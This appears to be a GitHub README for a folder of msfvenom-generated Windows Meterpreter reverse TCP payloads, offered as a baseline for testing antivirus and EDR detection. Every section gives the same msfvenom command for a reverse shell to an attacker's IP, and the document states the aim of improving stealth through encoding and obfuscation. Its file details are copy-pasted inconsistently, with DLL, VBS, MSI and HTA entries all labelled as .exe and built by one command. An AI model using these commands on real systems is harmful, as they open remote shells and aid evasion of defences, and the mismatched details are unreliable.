 # Payload Generated with Msfvenom

This directory contains a payloads generated using the `msfvenom` tool, which is widely used for creating and testing malicious payloads in controlled environments. The payload included here serves as a baseline for analyzing antivirus (AV) and Endpoint Detection and Response (EDR) detection capabilities.

---

## File Details

### `Payload1.exe`
- **Description**: A reverse TCP payload designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o Payload1.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload2.exe`
- **Description**: A reverse TCP payload designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o Payload1.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload3.exe`
- **Description**: A reverse TCP payload designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o Payload1.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload4.exe`
- **Description**: A reverse TCP payload designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o Payload1.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload.dll`
- **Description**: A reverse TCP payload designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o Payload1.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload.vbs`
- **Description**: A reverse TCP payload designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o Payload1.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload.msi`
- **Description**: A reverse TCP payload designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o Payload1.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload.hta`
- **Description**: A reverse TCP payload designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o Payload1.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---



## Detection Analysis

The payloads were uploaded to VirusTotal to evaluate detection rates across various antivirus engines. The results are used as a baseline to identify opportunities for improving stealth through encoding, obfuscation, and other evasion techniques.

---

## Legal Notice

- **For Educational and Research Purposes Only**: This payload is strictly intended for testing in isolated environments such as virtual machines or lab setups.
- **Prohibited Usage**: Unauthorized use or deployment on live systems or production environments is against the law and organizational policies.
- **Responsibility Disclaimer**: The creator assumes no liability for misuse of the provided tools or files.
